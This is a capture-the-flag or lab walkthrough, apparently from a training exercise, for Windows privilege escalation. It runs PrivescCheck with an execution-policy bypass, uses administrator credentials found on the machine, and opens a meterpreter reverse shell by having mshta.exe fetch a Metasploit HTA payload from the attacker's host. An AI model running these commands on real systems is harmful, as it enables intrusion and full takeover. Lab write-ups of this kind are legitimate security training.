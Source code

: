 
***switch to victim machine***

Open the powershell.exe terminal to check the current user
We are running as a student user. We will run the PrivescCheck PowerShell script to find possible misconfiguration issues that can be leveraged for local privilege escalation.

- cd ``
```C:\Users\student\Desktop\PrivescCheck```
``
- ls
```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

We have found an administrator user credential. i.e administrator:hello_123321

We are running a command prompt i.e cmd.exe as an administrator user using
discovered credential and runas.exe

- runas.exe /user:administrator cmd
- enter pass: hello_123321

***Switch to the Kali Machine***

Step 6: Running the hta_server module to gain the meterpreter shell. Start msfconsole.
Commands:
msfconsole -q
use exploit/windows/misc/hta_server
exploit

```
“This module hosts an HTML Application (HTA) that when opened will run a payload via
Powershell..”
```
Copy the generated payload i.e “http://10.10.15.2:8080/jxEyD3w.hta” and run it on cmd.exe
with mshta command to gain the meterpreter shell.

Note: You need to execute the below payload on the cmd.exe.

***Switch to Victim Machine***

Step 7: Gaining a meterpreter shell.

Commands:
Note: You need to use your own Metasploit HTA server link

Payload: mshta.exe http://10.10.15.2:8080/jxEyD3w.hta

We can expect a meterpreter shell.

Step 8: Read the flag.
Commands:
sessions -i 1
cd C:\\Users\\Administrator\\Desktop
dir
cat flag.txt
This reveals the flag to us.
Flag: 2b070a650a92129c2462deae7707b0c5



another option
- msfconsole /script/webselivery
- run
- it will build us a payload that we can run in victim powershell command prompt
- copy n paste payload into victim machine
- then we will have a reverse shell in our msfconsole